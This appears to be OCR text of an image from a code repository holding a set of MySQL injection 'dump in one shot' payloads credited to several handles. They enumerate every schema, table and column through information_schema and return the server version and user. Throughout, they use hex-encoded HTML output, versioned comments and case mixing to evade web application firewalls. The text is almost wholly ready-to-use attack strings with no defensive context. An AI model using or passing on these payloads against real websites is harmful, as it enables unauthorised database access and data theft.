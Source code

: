 ```sql
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
```
